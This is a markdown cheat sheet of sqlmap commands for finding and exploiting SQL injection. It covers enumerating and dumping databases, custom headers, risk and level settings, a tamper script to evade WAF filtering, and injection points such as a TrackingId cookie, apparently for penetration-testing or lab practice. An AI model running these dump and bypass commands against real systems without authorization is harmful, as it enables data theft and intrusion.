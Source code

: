 ## SQL map commands:

### GET:
```
sqlmap -u "http://example.com/vulnerable.php?id=1"
```
### POST:
```
sqlmap -u "http://example.com/vulnerable.php" --data="id=1" //The --data flag allows you to specify POST parameters.
```
### FROM FILE:
```
sqlmap -r /path/to/request.txt
```
### Custom HTTP Headers:
```
sqlmap -u "http://example.com/vulnerable.php?id=1" --headers="User-Agent: Mozilla/5.0" //The --headers flag allows you to customize HTTP headers.
```
### Enumerate Databases:
```
sqlmap -u "http://example.com/vulnerable.php?id=1" --dbs //Lists all available databases on the server.
```
### Dump Entire Database:
```
sqlmap -u "http://example.com/vulnerable.php?id=1" -D database_name --dump //Dumps all tables and data from the specified database.
```
### Enumerate Tables:
```
sqlmap -u "http://example.com/vulnerable.php?id=1" -D database_name --tables
```
### Enumerate Columns:
```
sqlmap -u "http://example.com/vulnerable.php?id=1" -D database_name -T table_name --columns
```
### Risk and Level:
```
sqlmap -u "http://example.com/vulnerable.php?id=1" --risk=3 --level=5
```
### Specify Parameter:
```
sqlmap -r /path/to/request.txt -p id
```

## ByPass:
```
sqlmap -u "http://example.com/vulnerable.php?id=1" --tamper=space2comment //Uses a tamper script (space2comment in this case) to evade simple WAF filtering
```
```
sqlmap -u "http://example.com/vulnerable.php?id=1" --batch //Runs sqlmap in non-interactive mode, automatically answering prompts
```
```
sqlmap -u "http://example.com/vulnerable.php?id=1" --timeout=10 //Sets a timeout for requests, helpful with slow servers.
```
## Where to test:

**Id** in Post number;

**TrackingId** in Cookie Header;

## Manual Testing:

https://portswigger.net/web-security/sql-injection/cheat-sheet
